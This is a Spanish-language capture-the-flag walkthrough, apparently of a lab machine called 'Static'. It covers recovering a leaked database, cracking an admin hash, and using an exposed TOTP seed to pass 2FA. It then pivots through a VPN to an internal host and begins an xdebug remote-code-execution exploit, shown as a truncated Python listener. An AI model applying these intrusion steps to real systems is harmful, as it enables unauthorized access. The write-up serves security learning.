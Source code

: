 [Static Nmap Result](/assets/files/WriteUps/Static.txt)

## http
El robots, nos reporta 2 rutas.

> /.ftp_uploads/
> /vpn/

Descargamos el archivo "db.sql.gz" para analizarlo. Nos dice que está corrupto. Tenemos que restaurarlo.

### db.sql.gz

Mediante la herramienta [fixgz](/fixgz/) restauramos el archivo y lo extraemos.
Al abrir el archivo db.sql, vemos credenciales. Tratamos de romper el hash por fuerza bruta.

> USER: admin
> HASH: d033e22ae348aeb5660fc2140aec35850c4da997 (restored)
> PASS: admin
> TOTP: orxxi4c7orXWwzlo

## http
En la página "/vpn/" iniciamos sesión pero tenemos que proporcionar un 2FA. 
Buscamos "google authenticator addon firefox" para poner el OTP y obtener el código.

> Iniciamos sesión

Al poner el nombre "web" en el formulario, y darla a generar. Nos crea un archivo ovpn. Al abrirlo vemos que intenta conectarse a "vpn.static.ovpn". Añadimos el dominio al /etc/hosts y nos conectamos a la vpn.

Al intentar comunicarnos con los distintos segmentos, nos damos cuenta que no tenemos acceso a algunos, para ello añadimos el segmento 172.20.0.0/24 al [IP-Route](/IP-Route/). Sin proporcionar ip del router.

> Tenemos traza con el segmento 172.20.0.0/24

# 172.20.0.10, 192.168.254.2
## nmap
22 - ssh
80 - http

## http
Vemos un archivo info.php.

> disable_functions -> Podemos subir una webShell
> xdebug 2.6.0 -> xdebug github exploit -> Podemos intentar conseguir RCE.

Aunque el script no nos decodifica el base64, modificamos el script.

```python
#!/usr/bin/env python2

import socket, re, pdb
from base64 import b64decode

ip_port = ('0.0.0.0', 9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
	client_data = conn.recv(1024)
```
